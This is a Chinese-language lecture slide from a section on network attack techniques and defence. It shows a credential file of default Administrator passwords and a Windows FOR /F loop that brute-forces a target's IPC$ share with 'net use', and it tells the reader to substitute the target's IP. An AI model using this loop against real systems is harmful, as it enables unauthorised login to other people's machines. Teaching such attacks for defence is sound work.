

5.3 网络攻击技术及其防御
也可以自己动手创建一个自动化猜测工具：
首先，建立一个口令和用户名文件，如：cred.txt
password            username
“”                         Administrator
password            Administrator administrator      Administrator
admin                  Administrator
secret                  Administrator
......
其次，在命令行上使用类似如下的FOR命令：
C:\>FOR /F “token=1,2,*” %i in(cred. txt) do net use \\target\ IPC$ %i /u : %j
FOR命令会将cred.txt中每一行的两个字符串提取出来，将口令赋予%i，用户名赋予%j。Net use命令会将%i和%j作为参数，并试图连接target的IPC$共享卷。
注意：在实际中，要将target替换为目标系统的IP地址。